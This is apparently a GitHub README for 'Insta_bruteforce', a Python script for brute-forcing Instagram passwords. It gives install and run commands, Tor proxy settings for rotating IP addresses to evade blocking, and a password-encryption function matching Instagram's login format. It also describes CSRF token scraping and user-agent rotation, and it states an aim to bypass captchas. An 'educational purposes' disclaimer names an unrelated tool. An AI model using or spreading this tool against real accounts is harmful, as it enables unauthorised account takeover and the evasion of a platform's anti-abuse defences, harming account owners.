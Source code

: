 # Insta_bruteforce

![image](https://github.com/torino64/Insta_bruteforce/assets/47543092/70e9563f-c927-4bca-956f-4738a5956773)

Instagrame_bruteforce is a professionally crafted Python script tailored for evaluating the password strength of Instagram accounts, employing a robust bruteforce attack approach. This script is platform-agnostic and seamlessly compatible with Kali Linux/Ubuntu/Parrot OS operating systems, ensuring flexibility for users across different computing environments. To enhance anonymity and security, Instagrame_bruteforce integrates Tor service, routing its network requests through the Tor network for added privacy and protection.

# Installation
# Kali Linux/Ubuntu/Parrot OS:

```
sudo apt-get update
sudo apt-get install git
sudo apt-get install tor
sudo apt install python3
sudo apt-get install pip
pip install --upgrade pip setuptools
git clone https://github.com/torino64/Insta_bruteforce.git
ls
cd Insta_bruteforce
ls
pip install -r requirements.txt
sudo service tor start
sudo service tor status
ctrl +c
sudo python3 insta_bruteforce.py
```
If you encounter an issue when trying to run 'insta_bruteforce,' it's essential to verify your Tor configuration. Ensure that Tor has been correctly set up with the control port enabled. You can inspect the Tor configuration file, usually found at /etc/tor/torrc, and confirm that it includes the following line:

```
ControlPort 9051
```
If it's not there, add it, and then restart Tor.


# Unlocking Instagram: The Game-Changing Features of Our Brute Force Tool

What truly sets this Instagram brute force script apart from others, readily available on GitHub, is its meticulous attention to both security and evasion techniques. While some scripts might merely initiate the Tor service and proceed with the attack, this script takes a much more comprehensive approach. It seamlessly integrates Tor proxies into its network requests to ensure anonymity and dynamic IP address rotation during the brute force operation.

The script achieves this by configuring Tor proxies as follows:

```
self.proxies = {
    'http': 'socks5://127.0.0.1:9050',
    'https': 'socks5://127.0.0.1:9050'
}
```

By doing so, all communication between the script and the Instagram server is meticulously routed through the Tor network, providing a constantly changing public IP address. Without this integration, even if the Tor service is running (as initiated with the 'sudo service tor start' command), making requests without these proxies, as shown below:

```
data = json.loads(requests.get('https://www.instagram.com/data/shared_data/', headers=headers).text)
```

would result in a static public IP address. Consequently, with just a few unsuccessful attempts, the script would risk being blocked, limiting brute force attempts to a mere three.

Additionally, this script boasts an 'encrypt_password' function, capable of encrypting passwords before they are sent to the server. As an essential security measure, this function accepts parameters such as 'key_id', 'pub_key', 'password', and 'version'. It's vital to note that sending unencrypted passwords to the server would not proceed with the credential verification process. To acquire the necessary parameters for 'encrypt_password', the script sources them from 'https://www.instagram.com/data/shared_data/'.

```
def encrypt_password(self, key_id, pub_key, password, version=10):
            key = Random.get_random_bytes(32)
            iv = bytes([0] * 12)

            time = int(datetime.now().timestamp())
            aes = AES.new(key, AES.MODE_GCM, nonce=iv, mac_len=16)
            aes.update(str(time).encode('utf-8'))
            encrypted_password, cipher_tag = aes.encrypt_and_digest(password.encode('utf-8'))

            pub_key_bytes = binascii.unhexlify(pub_key)
            seal_box = SealedBox(PublicKey(pub_key_bytes))
            encrypted_key = seal_box.encrypt(key)

            encrypted = bytes([1,
                            key_id,
                            *list(struct.pack('<h', len(encrypted_key))),
                            *list(encrypted_key),
                            *list(cipher_tag),
                            *list(encrypted_password)])
            encrypted = base64.b64encode(encrypted).decode('utf-8')

            return quote_plus(f'#PWD_INSTAGRAM_BROWSER:{version}:{time}:{encrypted}')
```
Furthermore, the script modifies certain attributes in the headers of the login page, 'https://www.instagram.com/accounts/login/ajax/'. For each request, it generates a unique 'user_agent' and extracts the CSRF token from 'https://www.instagram.com/data/shared_data/'. Additionally, it introduces new attributes like 'X-Asbd-Id,' among others.

While the script encounters occasional challenges, particularly due to captchas, it persists in its quest for successful brute force attempts. Future developments will focus on devising methods to bypass captchas. Thank you for your time.

![image](https://github.com/torino64/Insta_bruteforce/assets/47543092/c73a2728-5970-41ee-88ff-e81f35d99687)

As depicted in the image above, you'll notice that the IP address undergoes frequent changes with each new request:

    AT - Austria
    NL - Netherlands
    RU - Russia
    LU - Luxembourg

The extensive text you see typically indicates a captcha-related challenge. On the other hand, other messages pertain to the waiting period during the verification process. If you come across 'authenticated: false,' it suggests an unsuccessful password attempt.

# 📢 Warning
**This tool is exclusively intended for educational purposes. We want to emphasize that if you employ this tool for any other objectives beyond education, we disclaim any responsibility for such actions. The Phone Number Information tool cannot be held accountable for misuse or any illegal activities. We strongly advise that you restrict its usage to penetration testing or educational endeavors. Remember, hacking itself is not a criminal act. We welcome pull requests with open arms, fostering a collaborative environment.**

# I'm Not A Hacker I'm A Cyber Security Professional



